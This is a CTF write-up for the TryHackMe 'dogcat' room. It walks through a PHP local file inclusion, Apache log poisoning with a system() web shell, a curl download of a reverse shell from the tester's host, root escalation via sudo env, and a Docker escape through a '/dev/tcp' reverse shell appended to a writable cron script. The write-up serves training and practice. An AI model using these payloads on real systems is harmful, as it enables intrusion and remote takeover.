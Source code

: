 ```yaml
---
title : "TryHackMe: Dogcat WriteUp"
author : Seif-Allah
description : "TryHackMe: WriteUp for the dogcat room (Level: Medium)"
layout : post
category: CTF-WriteUp
tags : [THM,TryHackMe,WriteUp,dogcat,Medium,CTF]
image : /assets/images/writeups/thm/anonymous/dogcat.png
---
```



Link : [dogcat room](https://tryhackme.com/room/dogcat)

Welcome, Welcome, Welcome and welcome ! 

### Introduction 
After finishing [lfi basics room](), and learning some new lfi stuff, I chose this room to practice my new skill, and I absolutely recommend it! 

### Enumeration

- - -
```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 24:31:19:2a:b1:97:1a:04:4e:2c:36:ac:84:0a:75:87 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCeKBugyQF6HXEU3mbcoDHQrassdoNtJToZ9jaNj4Sj9MrWISOmr0qkxNx2sHPxz89dR0ilnjCyT3YgcI5rtcwGT9RtSwlxcol5KuDveQGO8iYDgC/tjYYC9kefS1ymnbm0I4foYZh9S+erXAaXMO2Iac6nYk8jtkS2hg+vAx+7+5i4fiaLovQSYLd1R2Mu0DLnUIP7jJ1645aqYMnXxp/bi30SpJCchHeMx7zsBJpAMfpY9SYyz4jcgCGhEygvZ0jWJ+qx76/kaujl4IMZXarWAqchYufg57Hqb7KJE216q4MUUSHou1TPhJjVqk92a9rMUU2VZHJhERfMxFHVwn3H
|   256 21:3d:46:18:93:aa:f9:e7:c9:b5:4c:0f:16:0b:71:e1 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBouHlbsFayrqWaldHlTkZkkyVCu3jXPO1lT3oWtx/6dINbYBv0MTdTAMgXKtg6M/CVQGfjQqFS2l2wwj/4rT0s=
|   256 c1:fb:7d:73:2b:57:4a:8b:dc:d7:6f:49:bb:3b:d0:20 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIfp73VYZTWg6dtrDGS/d5NoJjoc4q0Fi0Gsg3Dl+M3I
80/tcp open  http    syn-ack ttl 60 Apache httpd 2.4.38 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: dogcat
```
Nothing fancy here, there's a web server running on port 80, let's check it! 

![homepage](/assets/thm/dogcat/homepage.png)

Basically, it's a web app that choose randomly a cat or a dog image based on user choice (images are stored inside a dog and cat folders - look at the source). 

The user choice (cat | dog) are passed to the server through the *view* variable (look at the url), so what if we enter something other than dog or cat ? for example *ls*
- - -
```html
Sorry, only dogs or cats are allowed.
```
- - -
So only dogs or cats allowed ? lets try *dog;ls* ?
- - -
```html 
Warning: include(dog;ls.php): failed to open stream: No such file or directory in /var/www/html/index.php on line 24

Warning: include(): Failed opening 'dog;ls.php' for inclusion (include_path='.:/usr/local/lib/php') in /var/www/html/index.php on line 24
```
humm ! so there's an include function running inside the */var/www/html/index.php* file that failed to open *days;ls.php* file. 

I think it's time for some [lfi](https://github.com/seifallahhomrani1/PayloadsAllTheThings/tree/master/File%20Inclusion#basic-lfi) now ! 

First things first, I used the null byte character : %00
The result was : 
- - -
```
Warning: include(): Failed opening 'dog;ls' for inclusion (include_path='.:/usr/local/lib/php') in /var/www/html/index.php on line 24
```
so we get rid of the first warning which means that :
- the program concatenate .php extension at the end of the input unless it's dog or cat.

Ok, let's *directory traversal* : 
- - -
```html
“/?view=php://filter/read=convert.base64-encode/resource=./dog/../index”
Result after decoding : 

<!DOCTYPE HTML>
<html>

<head>
    <title>dogcat</title>
    <link rel="stylesheet" type="text/css" href="/style.css">
</head>

<body>
    <h1>dogcat</h1>
    <i>a gallery of various dogs or cats</i>

    <div>
        <h2>What would you like to see?</h2>
        <a href="/?view=dog"><button id="dog">A dog</button></a> <a href="/?view=cat"><button id="cat">A cat</button></a><br>
        <?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
         <!-- the site checks if ext variable is set, if not it assigns it .php   -->
	    $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
    </div>
</body>

</html>
```
html comment is my explanation of the code.


### LFI to RCE via controlled log file 
Like mentioned [here](https://github.com/seifallahhomrani1/PayloadsAllTheThings/tree/master/File%20Inclusion#basic-lfi), I did a request to the server (in our case Apache) and include the log file (/var/log/apache2/access.log&ext). Reading the log file, it looks like we can insert a php script inside the user agent header since it's not manipulated(10.4.14.245 - - [14/Nov/2020:17:13:34 +0000] "GET / HTTP/1.1" 200 537 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0" 10.4.14.245 -), so I inserted this code : 
- - -
```php
<?php system($_GET['cmd']);?>
```
- - -
and then started a web server on my local host to host a reverse shell file and used wget command to save it inside a temporary file to finally get a reverse shell ! 
- - -
```
/?view=./dog/../../../../../../../var/log/apache2/access.log&ext&cmd=curl http://MY-IP:80/reverse.php > /tmp/reverse.php
```
- - -
After that, I used chmod to make it executable and started a listener in my local host and running the file from the browser
BOOM!! I got the reverse shell ! 
- - -
```bash
root@kali:~/Documents/thm/startup# nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.4.14.245] from (UNKNOWN) [10.10.129.131] 46518
Linux 571f0aa7aca9 4.15.0-96-generic #97-Ubuntu SMP Wed Apr 1 03:25:46 UTC 2020 x86_64 GNU/Linux
 18:05:41 up 55 min,  0 users,  load average: 0.23, 0.11, 0.06
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
Spawning a tty shell using */bin/bash -i* command, and looking at the user directory we can find the 2nd flag. 
The first flag was inside the */var/www/html/* directory. (We could retrieve it by running view=flag in the url, anyway)
Now we need to escalate our privileges.
### PrivEsc
Running sudo -l command, it looks like we can *env* as root, checking [gtfobins] as always and yeah we can escalate our privileges to root by running :
*sudo env /bin/sh*, easy!
We can now retrieve the 3rd flag from root directory. 

But now !! THE FUN BEGIN 

### Breaking DOCKER LOCKER 
The 4th flag was really hard to get for me, I didn't face any of these kinda flags before but it was kinda fun to get it ! 

By looking at this [article](https://medium.com/better-programming/escaping-docker-privileged-containers-a7ae7d17f5a1) from the famous Vickie Lie, and the docker tag from the room cover, I check /proc/1/cgroup file to check if we are inside a docker container or not. 

So I manually enumerated the machine, looking for elements that could help me escape the container such as a script via the find / -type f -name *.sh command because nothing of the tricks found helped me, the first result is the file /opt/backups/backup.sh, hum interesting, looking at its contents : 
```bash
#!/bin/bash
tar cf /root/container/backup/backup.tar /root/container
```
From what it looks like, basically it's a cronjob that backup the container, and since it's writeable, let's add a reverse shell, start a listener and wait for it to be executed.
- - -
```
echo "/bin/bash -c 'bash -i >& /dev/tcp/<YOUR_IP>/1234 0>&1'" >> backup.sh
```
- - -
After few minutes we get a reverse shell from the parent host and we can easily get flag4.txt ! 

### Final thoughts 
This room rocks ! I absolutely recommend for all beginners like me ! 
Huge thanks to [jammy](https://tryhackme.com/p/jammy) ! 
